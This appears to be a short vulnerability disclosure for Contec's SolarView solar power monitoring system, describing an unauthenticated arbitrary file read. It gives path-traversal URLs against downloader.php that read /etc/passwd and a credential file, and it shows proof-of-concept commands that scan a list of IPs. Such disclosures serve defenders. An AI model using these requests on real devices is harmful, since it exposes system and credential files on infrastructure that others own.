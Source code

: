 # **太阳能发电监视系统（SolarView™）**

## Vulnerability description

Vulnerability name : Japan Contec Solar Power Monitoring System
(SolarView™) is not authorized to read arbitrary files.

Affected entity manufacturer name: Japan Contec Co., Ltd.

Affected Entity Name：**SolarView**

Introduction link：

<https://www.contec.com/cn/products-services/environmental-monitoring/solarview/>

## **security researcher**

name1: peishilong

Please contact email: <peisylon@foxmail.com>

## **Home Screenshot:**

![](./images/media/image1.png){width="5.759027777777778in"
height="2.229861111111111in"}

![](./images/media/image2.png){width="5.7625in"
height="3.1743055555555557in"}

## **Vulnerability location:**

Arbitrary file reading:

<http://ip:port/downloader.php?file=/home/contec/conf/../../../../../../etc/passwd>

<http://ip:port/downloader.php?file=/home/contec/conf/.pass>

![](./images/media/image3.png){width="5.754861111111111in"
height="2.2083333333333335in"}

![](./images/media/image4.png){width="5.7625in"
height="2.892361111111111in"}

POC:

python \"Contec SolarView arbitrary file read.py\" -f ip.txt

python \"Contec SolarView arbitrary file read.py\" -u http://ip:port

![](./images/media/image5.png){width="5.756944444444445in"
height="1.6194444444444445in"}
